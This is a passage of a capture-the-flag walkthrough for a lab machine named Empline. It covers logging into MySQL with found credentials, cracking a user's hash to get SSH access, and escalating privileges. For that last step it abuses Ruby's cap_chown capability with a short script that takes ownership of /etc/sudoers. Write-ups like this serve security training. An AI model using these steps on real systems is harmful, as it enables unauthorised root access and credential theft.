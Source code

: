 We got credentials for the mysql port:

```
mysql -h 10.10.246.235 -u james -p --skip_ssl
```

```
ng6pUFvsGNtw
```

At the `user` table on the `opencats` database, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430164346.png)

We got a hash for the George user, this user was found when we read the `/etc/passwd` file, since it got a console, we can decode the hash and get a session on ssh:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430164451.png)

```
george:pretonnevippasempre
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430164529.png)


There we go, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


```
george@empline:~$ cat user.txt
91cb89c70aa2e5ce0e0116dab099078e
```


Let's use linpeas to check any PE vector:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430164919.png)

`Ruby` has the `cap_chown` capability set, we can do the following:

1. Create a Ruby Script to Change Ownership of `/etc/sudoers`

Create a file named `exploit.rb` with the following content:

```rb
File.chown(Process.uid, Process.gid, "/etc/sudoers")
```

2. Run the Script with the Vulnerable Ruby Binary:

```bash
/usr/local/bin/ruby exploit.rb
```
